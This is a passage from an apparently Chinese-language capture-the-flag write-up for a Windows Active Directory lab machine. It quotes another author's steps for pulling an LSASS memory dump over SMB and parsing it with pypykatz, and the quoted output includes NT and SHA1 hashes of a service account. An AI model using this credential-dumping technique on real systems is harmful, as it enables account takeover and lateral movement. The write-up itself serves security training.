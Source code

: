 得到了很多信息，这里下载 `lsass.zip`，太大了，超时失败

```bash
smb: \memory_analysis\> get lsass.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
```

看 0xdf 大神

I could move this over to a Windows VM, but there’s a Mimikatz alternative, [pypykatz](https://github.com/skelsec/pypykatz) which will work just fine. I’ll install it with `pip3 install pypykatz`. [This blog](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) has a good section on dumping with `pypykatz` from Linux. It dumps a bunch of information:

```
root@kali# pypykatz lsa minidump lsass.DMP
INFO:root:Parsing file lsass.DMP                          
FILE: ======== lsass.DMP =======                          
== LogonSession ==
authentication_id 406458 (633ba)                    
session_id 2
username svc_backup                        
domainname BLACKFIELD                               
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413  
luid 406458
        == MSV ==                          
                Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
                password None                             
        == SSP [633ba]==             
                username                   
                domainname
                password None
        == Kerberos ==
                Username: svc_backup                      
                Domain: BLACKFIELD.LOCAL   
                Password: None                            
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
                password None
                                                          
== LogonSession ==                                  
authentication_id 365835 (5950b)
session_id 2
username UMFD-2
domainname Font Driver Host
logon_server                                        
logon_time 2020-02-23T17:59:38.218491+00:00                                                                                                                                                                                                
sid S-1-5-96-0-2
...[snip]...
```
